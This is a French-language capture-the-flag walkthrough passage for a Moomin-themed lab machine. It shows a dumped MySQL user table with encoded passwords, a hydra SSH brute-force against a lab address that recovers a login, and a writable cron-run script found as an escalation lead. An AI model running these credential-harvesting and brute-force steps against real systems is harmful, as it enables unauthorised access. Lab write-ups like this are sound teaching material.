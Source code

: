 ```plain
mysql> select * from user_details; 
+---------+----------+-------------------------------+ 
| User_id | Username | Password                      | 
+---------+----------+-------------------------------+ 
|       1 | Boee     | MSLJDFALkljsdfMIYR=           | 
|       2 | Stinky   | MWQxZHQzc3QxbmcK=             | 
|       3 | Sniff    | N2gzIE11ZGRsM3IK=             | 
|       4 | Snork    | https://pastebin.com/0wstpQk0 | 
+---------+----------+-------------------------------+ 
4 rows in set (0.00 sec)
```

Gotcha ! Le pastebin indiqué contient une série de passwords et adresses emails.  

```plain
$ awk '{ print $1 }' 0wstpQk0.txt > pass.txt
$ hydra -l Joxter -P pass.txt ssh://192.168.56.19 
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway). 

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4 
[DATA] max 16 tasks per 1 server, overall 16 tasks, 383 login tries (l:1/p:383), ~24 tries per task 
[DATA] attacking ssh://192.168.56.19:22/ 
[STATUS] 176.00 tries/min, 176 tries in 00:01h, 207 to do in 00:02h, 16 active 
[STATUS] 128.00 tries/min, 256 tries in 00:02h, 127 to do in 00:01h, 16 active 
[22][ssh] host: 192.168.56.19   login: Joxter   password: 0ffs3cJ0xt3r!!
1 of 1 target successfully completed, 1 valid password found 
```

New challenger
--------------

Avec le compte obtenu on peut obtenir le second flag et agir sur la tache CRON lancée avec l'utilisateur Boe.  

```plain
Joxter@moee:~$ cat flag2.txt  
Congrats, Joxter though you were lazy and worry-free you got yourself with some OSINT.
Now it's your time to use the premonitions which you call "Forebodings" to protect Boe from a bigger disaster things.
For that you have to recall your mind like a cron things as in linux. 

 - Moominpappa's Memoirs (Boe)

Joxter@moee:~$ ls -al /opt/
total 12
drwxr-x---  2 Boe  devsec 4096 Nov 22  2020 .
drwxr-xr-x 22 root root   4096 Nov 11  2020 ..
-rwxrwxr--  1 Boe  devsec  379 Nov 22  2020 Flag.py
```
